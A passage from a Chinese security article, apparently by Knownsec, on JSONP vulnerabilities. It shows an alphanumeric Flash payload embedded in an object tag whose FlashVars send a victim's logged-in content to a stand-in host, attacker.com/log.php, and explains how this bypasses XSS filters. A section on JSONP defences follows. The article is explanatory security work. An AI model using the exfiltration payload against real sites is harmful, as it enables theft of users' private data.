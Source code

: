 ```{"id" : "1","name" : "知道创宇"}```
	orHthHHHXDhtxHHHLravHQxQHHHOnHDHyMIuiCyIYEHWSsgHmHKcskHoXHLHwhHH
	voXHLhAotHthHHHLXAoXHLxUvH1D0Up0IZUnnnnnnnnnnnnnnnnnnnUU5nnnnnn3
	SnnwWNqdIbe133333333333333333WfF03sTeqefXA888ooooooooooooooooooo
	oooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooo
	oooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooo
	ooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooo8
	88888880Nj0h"
	style="display: none">
	<param name="FlashVars"
	value="url=https://vulnerable.com/account/sensitive_content_logged_in
	&exfiltrate=http://attacker.com/log.php">
	</object>	


所以对于纯 alphanumeric 的输出来说，那些针对 XSS 的过滤显然是可以直接忽略，这个漏洞也就是证明了上面我们提到的“ a + b 方案”直接绕过了！



三、防御

通过上面的攻防对抗演练，很多开发者可能会感觉有点悲剧的味道，各种防御机制好像都有办法绕过。这里我想到一个真理：没有绝对的安全！那么我们防御的意义在哪里呢？我认为防御的意义就是虽然没办法让开发的程序最安全（绝对安全），但是可以让它更安全！提高攻击者的技术成本的门槛是安全防御的一个主要的重要的方向。我们回到具体的 JSONP 防御上可以总结如下几点：

1、严格安全的实现 CSRF 方式调用 JSON 文件：限制 Referer 、部署一次性 Token 等。
2、严格安装 JSON 格式标准输出 Content-Type 及编码（ Content-Type : application/json; charset=utf-8 ）。
3、严格过滤 callback 函数名及 JSON 里数据的输出。
4、严格限制对 JSONP 输出 callback 函数名的长度(如防御上面 flash 输出的方法)。
5、其他一些比较“猥琐”的方法：如在 Callback 输出之前加入其他字符(如：/**/、回车换行)这样不影响 JSON 文件加载，又能一定程度预防其他文件格式的输出。还比如 Gmail 早起使用 AJAX 的方式获取 JSON ，听过在输出 JSON 之前加入 while(1) ;这样的代码来防止 JS 远程调用。

